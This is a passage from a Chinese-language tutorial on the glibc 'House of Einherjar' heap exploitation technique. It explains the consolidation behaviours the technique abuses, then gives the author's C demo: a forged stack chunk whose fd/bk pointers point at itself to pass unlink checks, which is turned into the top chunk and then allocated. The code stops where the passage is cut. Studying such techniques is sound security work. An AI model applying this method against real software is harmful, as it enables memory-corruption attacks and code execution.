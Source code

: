 ![image-20230809233712730](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/image-20230809233712730.png)

该技术用了两个地方的漏洞：

- 若紧挨着`top chunk`的`chunk`被`free`，那么该`chunk`会与`top chunk`合并。
- 当前`chunk`被`free`时，会通过当前`chunk`的`prev_inuse`位来判断前一个`chunk`是否也是`free`状态，若是，那么会进行合并。（像`fastbin`这种不会合并的不包括在内）
- 合并过程是先后向合并（与前面的`chunk`合并），再前向合并（与后面的`chunk`合并，比如`top chunk`）

你需要控制才能完成攻击的：

- 控制紧邻`top chunk`的`chunk`的`prev_inuse`位，以及该`chunk`的`prev_size`。（通常是使用`off by one`）
- 在某处（通常是位于栈上）能够伪造一个`fake chunk`。

笔者本人写了一段`house of enherjar`的代码，如下所示：

```c
/*

        else
        // 假如它的下一个chunk是top chunk，那么和top chunk进行合并
        {
            size += nextsize; // 加上top chunk的大小
            set_head(p, size | PREV_INUSE); // 设置标志位
            av->top = p; // 合并之后的chunk成为新的top chunk
            check_chunk(av, p); // 检查是否合法
        }

*/

#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    long *fake_chunk[0x110]; // 最终我们希望使得这里成为top chunk并申请。
    printf("the addr of fake_chunk is %p.\n", &fake_chunk[0]);

    long *a = malloc(0x100); // 申请一个0x110的small chunk，如此以来它会紧邻top chunk
    long *real_a = a - 2;    // real_a是a的起始地址
    printf("the addr of real_a is %p.\n", real_a);
    printf("so the diff from real_a to fake_chunk is %p.\n", (long)real_a - (long)&fake_chunk[0]);

    // 攻击开始
    real_a[0] = (long)real_a - (long)&fake_chunk[0];         // 修改a的prev_size大小
    real_a[1] = 0x110;                                       // 修改a的prev_inuse为0
    fake_chunk[1] = (long)real_a - (long)&fake_chunk[0] + 1; // 修改fake_chunk的size
    // 在释放的时候，后向合并时会将fake_chunk进行unlink
    // 需要修改fake_chunk的fd bk fd_nextsize bk_nextsize指针来绕过unlink检查
    // unlink有安全检查：P->fd->bk == P, P->bk->fd == P，同时fd_nextsize也是如此
    // 将fake_chunk的指针统统指向本身，绕过一切
    fake_chunk[2] = &fake_chunk[0];
    fake_chunk[3] = &fake_chunk[0];
    fake_chunk[4] = &fake_chunk[0];
    fake_chunk[5] = &fake_chunk[0];

    free(a);                 // 释放chunk a，如此一来先合并fake_chunk，再与top chunk合并
    long *b = malloc(0x100); // 再申请一个chunk
    printf("the addr of new malloc is %p.\n", b - 2);


    // 下面是在堆上伪造的。

    // long *a = malloc(0xf0); // 申请一个大小为0x100的chunk，并且最终我们希望它成为top chunk
    // printf("the addr of chunk a is %p.\n", a - 2);
```